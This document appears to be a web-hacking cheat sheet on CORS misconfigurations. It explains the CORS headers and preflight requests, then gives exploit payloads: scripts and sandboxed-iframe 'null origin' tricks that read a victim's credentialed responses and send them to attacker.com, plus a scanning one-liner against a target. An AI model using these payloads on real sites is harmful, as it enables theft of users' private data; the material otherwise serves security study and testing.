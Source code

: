 # CORS - Misconfigurations & Bypass
Cross-Origin Resource Sharing (CORS) standard enables servers to define who can access their assets and which HTTP request methods are permitted from external sources.

A same-origin policy mandates that a server requesting a resource and the server hosting the resource share the same `protocol` (e.g., http://), `domain name` (e.g., internal-web.com), and `port` (e.g., 80). Under this policy, only web pages from the same domain and port are allowed access to the resources.

![cors](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/9eee5927-fdb6-4fe2-8182-d669453230d1)





## `Access-Control-Allow-Origin` Header
This header can allow multiple origins, a `null` value, or a wildcard `*`. However, no browser supports multiple origins, and the use of the wildcard `*` is subject to limitations. (The wildcard must be used alone, and its use alongside `Access-Control-Allow-Credentials: true` is not permitted.)
This header is issued by a server in response to a cross-domain resource request initiated by a website, with the browser automatically adding an `Origin` header.

## `Access-Control-Allow-Credentials` Header
By default, cross-origin requests are made without credentials like cookies or the Authorization header. Yet, a cross-domain server can allow the reading of the response when credentials are sent by setting the `Access-Control-Allow-Credentials` header to `true`.
If set to true, the browser will transmit credentials (cookies, authorization headers, or TLS client certificates).


```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if(xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
        console.log(xhr.responseText);
    }
}
xhr.open('GET', 'http://example.com/', true); 
xhr.withCredentials = true; 
xhr.send(null);
```

```javascript
fetch(url, {
  credentials: 'include'  
})
```

```javascript
const xhr = new XMLHttpRequest();
xhr.open('POST', 'https://bar.other/resources/post-here/');
xhr.setRequestHeader('X-PINGOTHER', 'pingpong');
xhr.setRequestHeader('Content-Type', 'application/xml');
xhr.onreadystatechange = handler;
xhr.send('<person><name>Arun</name></person>');
```


## CSRF Pre-flight request
When initiating a cross-domain request under specific conditions, such as using a non-standard HTTP method (anything other than `HEAD`, `GET`, `POST`), introducing new headers, or employing a special Content-Type header value, a pre-flight request may be required. This preliminary request, leveraging the 
`OPTIONS` method, serves to inform the server of the forthcoming cross-origin request's intentions, including the HTTP methods and headers it intends to use.

The Cross-Origin Resource Sharing (CORS) protocol mandates this pre-flight check to determine the feasibility of the requested cross-origin operation by verifying the allowed methods, headers, and the trustworthiness of the origin. For a detailed understanding of what conditions circumvent the need for a pre-flight request, refer to the comprehensive guide provided by [Mozilla Developer Network (MDN)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple_requests).

It's crucial to note that the absence of a pre-flight request does not negate the requirement for the response to carry authorization headers. Without these headers, the browser is incapacitated in its ability to process the response from the cross-origin request.
Consider the following illustration of a pre-flight request aimed at employing the `PUT` method along with a custom header named Special-Request-Header:

```html
OPTIONS /info HTTP/1.1
Host: example2.com
...
Origin: https://example.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: Authorization
```

In response, the server might return headers indicating the accepted methods, the allowed origin, and other CORS policy details, as shown below:

```html
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Authorization
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

## Reflection of `Origin` in `Access-Control-Allow-Origin`
```javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://example.com/details',true);
   req.withCredentials = true;
   req.send();
   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```

## Exploiting the `null` Origin

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```


## Automate
```bash
echo https://target.com | hakrawler | httpx -silent | CorsMe -header
```




## Tools
* [CorsMe](https://github.com/Shivangx01b/CorsMe)
* [hakrawler](https://github.com/hakluke/hakrawler)


























